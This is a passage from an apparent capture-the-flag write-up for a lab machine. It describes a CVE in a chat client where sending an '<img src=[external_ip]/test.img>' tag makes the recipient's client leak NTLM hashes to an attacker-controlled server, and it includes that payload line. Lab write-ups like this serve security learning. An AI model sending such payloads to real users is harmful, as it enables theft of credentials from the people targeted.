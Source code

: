 Time to research a little to inspect this software. It seems like there are CVEs and exploits from this software. What we will do is take advantage of this.

![spark search](/images/THM/ra/Captura18.PNG)

We found a [CVE] that with When we opened a chat with another user, we could send an `<img` tag to that user with an external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external server receives the request for the image, together with the NTLM hashes from the user that visits the link, i.e. the user you are chatting with!

![CVE](/images/THM/ra/Captura19.PNG)